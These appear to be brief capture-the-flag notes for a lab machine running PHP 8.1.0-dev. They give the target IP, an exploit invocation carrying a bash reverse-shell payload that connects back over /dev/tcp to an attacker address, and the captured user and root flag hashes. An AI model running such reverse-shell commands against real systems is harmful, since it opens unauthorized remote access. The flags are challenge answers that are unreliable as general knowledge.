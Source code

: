 IP=10.10.10.242
	->PHP 8.1.0-dev
	
REVERSE_SHELL:-python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.74/4444 0>&1'"


user_flag:-c39e3e2c93437b2bb58601b09daf8850

root_flag:- 30f4adaa9b6e85285b4c3cc983e2cb6a


-----###-----##-----
